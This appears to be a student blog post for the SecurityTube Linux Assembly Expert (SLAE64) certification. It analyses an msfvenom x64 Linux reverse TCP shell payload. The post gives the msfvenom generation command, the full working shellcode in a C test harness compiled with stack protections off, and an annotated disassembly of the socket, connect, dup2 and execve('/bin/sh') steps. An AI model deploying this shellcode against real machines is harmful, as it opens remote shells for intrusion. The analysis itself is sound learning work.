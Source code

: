 # Reverse Tcp Shell
I created the payload like this:
```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=127.0.0.1 LPORT=4444 -f c
```
LHOST and LPORT specify the IP and port to connect to

## Testmodule
As I did for the first analysed payload I placed the shellcode into a C programm:
```
unsigned char shellcode[] =
"\x6a\x29\x58\x99\x6a\x02\x5f\x6a\x01\x5e\x0f\x05\x48\x97\x48"
"\xb9\x02\x00\x11\x5c\x7f\x00\x00\x01\x51\x48\x89\xe6\x6a\x10"
"\x5a\x6a\x2a\x58\x0f\x05\x6a\x03\x5e\x48\xff\xce\x6a\x21\x58"
"\x0f\x05\x75\xf6\x6a\x3b\x58\x99\x48\xbb\x2f\x62\x69\x6e\x2f"
"\x73\x68\x00\x53\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05";

(*(void(*)()) shellcode)();

```

And compiled it like this:
```
gcc -m64 -z execstack -fno-stack-protector Test.c -o Test -no-pie
```

## Analysis

1. Create a new socket by socket(AF_INET, SOCK_STREAM, 0)

    ```
    push 0x29   ; SYS_SOCKET
    pop rax
    cdq         ; Clear RDX
    push   0x2  ; AF_INET
    pop    rdi
    push   0x1  ; SOCK_STREAM
    pop    rsi
    syscall
    xchg   rdi,rax ; Place returned fd in rdi
    ```

2. Create struct_sockaddr

    ```
    movabs rcx,0x100007f5c110002 ; Struct with ip, port and sin_family. All in one
    push   rcx
    mov    rsi,rsp ; rsi now points to the struct
    push   0x10 ; Size of struct
    pop    rdx
    push 0x2a ; SYS_CONNECT
    pop rax
    syscall
    ```

3. Dup2 loop

    ```
    push   0x3
    pop    rsi
    dec    rsi ; start with stderr (2)
    push   0x21 ; dup2
    pop    rax
    syscall

    loop:

        dec    rsi
        push   0x21 ; dup2
        pop    rax
        syscall
        jne    loop

    ```


4. Execve syscall .

    ```
    push   0x3b # SYS_EXECVE
    pop    rax
    cdq
    movabs rbx,0x68732f6e69622f ; rbx has /bin/sh in hex
    push   rbx
    mov    rdi,rsp ; rdi points to /bin/sh
    push   rdx
    push   rdi
    mov    rsi,rsp ; rsi points to a pointer to /bin/sh and works as argv**
    syscall ; execve("/bin/sh", ["/bin/sh"], 0);

    ```
    
This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification.

http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert

Student ID: SLAE64-1581
